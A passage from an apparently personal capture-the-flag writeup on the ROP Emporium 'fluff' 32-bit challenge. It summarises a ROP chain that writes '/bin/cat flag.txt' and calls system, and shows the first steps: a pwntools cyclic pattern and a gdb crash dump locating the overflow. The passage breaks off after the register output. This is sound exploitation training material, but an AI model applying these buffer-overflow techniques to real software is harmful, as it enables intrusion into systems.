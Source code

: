 ```yaml
---
layout: post
title: ropemporium - fluff 32bit
---
```


This is a writeup on the (32bit) fluff challenge from ropemporium

## Summary
In this challenge I used to use a `popal` gadget to get values in the desired registers. I had to make sure that the register `ebx` was `0x00000000` because it would xor against a string that I could write. Then I wrote `/bin/cat flag.txt` into memory and called `system` with the string as an argument.

## Description
_The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we'll succeed._

## Starting off
I always start off by using the executable normally.
```
qh@hhq:~/CTF/ropemporium/fluff/32$ ./fluff32 
fluff by ROP Emporium
32bits

You know changing these strings means I have to rewrite my solutions...
> ABC

Exiting
```
After that I created a string pattern with `pwntools`:
```python
>>> from pwn import *
>>> cyclic(50)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama'
>>> 
```
I put that in a file named `payload`:
`$ echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama' > payload`

I used `gdb` to check what the value of the instruction pointer (`EIP`) was:
```
qh@hhq:~/CTF/ropemporium/fluff/32$ gdb ./fluff32 -q
Reading symbols from ./fluff32...(no debugging symbols found)...done.
gdb-peda$ r < payload
Starting program: /home/qh/CTF/ropemporium/fluff/32/fluff32 < payload  
fluff by ROP Emporium
32bits                                              
                                                                                
You know changing these strings means I have to rewrite my solutions...
>       
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd250 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama")
EBX: 0x0
ECX: 0xf7f9189c --> 0x0
EDX: 0xffffd250 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama")
ESI: 0xf7f90000 --> 0x1d9d6c
EDI: 0xf7f90000 --> 0x1d9d6c
EBP: 0x6161616b ('kaaa')
ESP: 0xffffd280 --> 0xf700616d
```